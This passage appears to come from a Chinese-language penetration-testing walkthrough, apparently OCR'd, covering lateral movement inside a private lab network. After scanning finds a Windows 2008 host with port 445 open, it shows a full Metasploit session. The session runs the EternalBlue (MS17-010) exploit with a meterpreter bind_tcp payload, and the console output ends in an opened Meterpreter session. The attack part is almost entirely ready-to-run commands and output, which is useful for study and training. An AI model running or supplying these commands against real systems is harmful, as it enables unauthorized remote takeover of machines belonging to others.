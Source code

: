 
4、发现利用
通过扫描发现在 192.168.232.0/24 地址段内，除了已经上线的 133 主机外，还有 132 主机也开放了 445 端口，且该主机为 Windows 2008 的操作系统，这里使用永恒之蓝作为演示。

```
msf5 > use exploit/windows/smb/ms17_010_eternalblue 
 
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.232.132 
rhosts => 192.168.232.132 
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp 
payload => windows/x64/meterpreter/bind_tcp msf5 
 
exploit(windows/smb/ms17_010_eternalblue) > exploit  
[*] 192.168.232.132:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check [+] 192.168.232.132:445 - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 HPC Edition 7601 Service Pack 1 x64 (64-bit) 
[*] 192.168.232.132:445 - Scanned 1 of 1 hosts (100% complete) 
[*] 192.168.232.132:445 - Connecting to target for exploitation. 
[+] 192.168.232.132:445 - Connection established for exploitation. 
[+] 192.168.232.132:445 - Target OS selected valid for OS indicated by SMB reply 
[*] 192.168.232.132:445 - CORE raw buffer dump (51 bytes) 
[*] 192.168.232.132:445 - 0x00000000 57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32 Windows Server 2 
[*] 192.168.232.132:445 - 0x00000010 30 30 38 20 48 50 43 20 45 64 69 74 69 6f 6e 20 008 HPC Edition 
[*] 192.168.232.132:445 - 0x00000020 37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63 7601 Service Pac 
[*] 192.168.232.132:445 - 0x00000030 6b 20 31 k 1 
[+] 192.168.232.132:445 - Target arch selected valid for arch indicated by DCE/RPC reply 
[*] 192.168.232.132:445 - Trying exploit with 12 Groom Allocations. 
[*] 192.168.232.132:445 - Sending all but last fragment of exploit packet 
[*] 192.168.232.132:445 - Starting non-paged pool grooming 
[+] 192.168.232.132:445 - Sending SMBv2 buffers 
[+] 192.168.232.132:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer. 
[*] 192.168.232.132:445 - Sending final SMBv2 buffers. 
[*] 192.168.232.132:445 - Sending last fragment of exploit packet! 
[*] 192.168.232.132:445 - Receiving response from exploit packet 
[+] 192.168.232.132:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)! 
[*] 192.168.232.132:445 - Sending egg to corrupted connection. 
[*] 192.168.232.132:445 - Triggering free of corrupted buffer. 
[*] Started bind TCP handler against 192.168.232.132:4444 
[*] Sending stage (201283 bytes) to 192.168.232.132 
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.175.200:9527) at 2020-09-01 22:13:57 -0400 
